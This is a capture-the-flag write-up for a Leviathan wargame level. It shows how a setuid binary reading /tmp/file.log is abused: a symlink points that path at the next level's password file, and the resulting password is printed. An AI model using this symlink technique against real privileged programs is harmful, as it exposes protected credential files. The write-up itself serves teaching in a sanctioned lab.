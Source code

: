 # Leviathan Level 5 --> Level 6
There is no information for this level, intentionally. 

## Solution 
See files in home directory, there is setuid file
```bash
leviathan5@leviathan:~$ ls
leviathan5
leviathan5@leviathan:~$ file leviathan5 
leviathan5: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=414fe0634bbd08f446816d4da55ea9a43484fc35, not stripped
```

Lets see how its work 
```console
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5 
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                              = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                        = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

Its open file in temp directory and output its content so what about link pass file with it
```console
ln -sf /etc/leviathan_pass/leviathan6 /tmp/file.log 
```

Now try
```console
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```

## Password
> UgaoFee4li

